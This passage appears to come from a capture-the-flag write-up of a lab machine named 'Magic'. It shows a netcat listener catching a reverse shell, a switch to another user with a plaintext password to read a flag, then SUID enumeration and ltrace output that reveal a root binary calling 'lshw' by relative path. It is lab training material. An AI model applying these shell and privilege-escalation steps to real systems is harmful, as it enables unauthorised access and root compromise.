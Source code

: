     :::text
    nc -l -p 4242
    /bin/sh: 0: can't access tty; job control turned off
    $ /usr/bin/script -qc /bin/bash /dev/null
    www-data@ubuntu:/var/www/Magic/images/uploads$ su theseus
    su theseus
    Password: Th3s3usW4sK1ng

    theseus@ubuntu:/var/www/Magic/images/uploads$ cat ~/user.txt
    cat ~/user.txt
    e0d993fb203a25ba31cee6d8aa2a612f

# Root

When looking at the SUID files we see that `sysinfo` is quit recent.

    :::text
    theseus@ubuntu:/var/www/Magic/images/uploads$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; | grep -v snap
    <ype f -exec ls -la {} 2>/dev/null \; | grep -v snap
    -rwsr-xr-- 1 root dip 382696 Feb 11 07:05 /usr/sbin/pppd
    -rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
    -rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
    -rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 149080 Jan 31 09:18 /usr/bin/sudo
    -rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
    -rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
    -rwsr-xr-x 1 root root 22528 Jun 28  2019 /usr/bin/arping
    -rwsr-xr-x 1 root root 10312 Dec  9 02:03 /usr/bin/vmware-user-suid-wrapper
    -rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-- 1 root messagebus 42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-sr-x 1 root root 10232 Dec 18 00:15 /usr/lib/xorg/Xorg.wrap
    -rwsr-xr-x 1 root root 26696 Jan  8 10:31 /bin/umount
    -rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
    -rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
    -rwsr-xr-x 1 root root 43088 Jan  8 10:31 /bin/mount
    -rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
    -rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping


We use `ltrace` (also already on the box) to see the binary calls and quickly
saw a call to `lshw` using a relative path.

    :::text
    theseus@ubuntu:/var/www/Magic/images/uploads$ ltrace /bin/sysinfo
    ltrace /bin/sysinfo
    _ZNSt8ios_base4InitC1Ev(0x55b09400e131, 0xffff, 0x7ffef3bfc788, 128) = 0
    __cxa_atexit(0x7f40c551fa40, 0x55b09400e131, 0x55b09400e008, 6) = 0
    setuid(0)                                        = -1
    setgid(0)                                        = -1
    _ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc(0x55b09400e020, 0x55b093e0c8f8, -160, 0) = 0x55b09400e020
    _ZNSolsEPFRSoS_E(0x55b09400e020, 0x7f40c558f870, 0x55b09400e020, 0x55b093e0c92d====================Hardware Info====================
    ) = 0x55b09400e020
    _ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev(0x7ffef3bfc650, 0x55b093e0c92e, 0, 2880) = 0x7ffef3bfc660
    popen("lshw -short", "r")                        = 0x55b095436280
    fgets(WARNING: you should run this program as super-user.
    "H/W path     Device  Class      "..., 128, 0x563a9c8f6280)                                                                                = 0x7ffe1eb20b70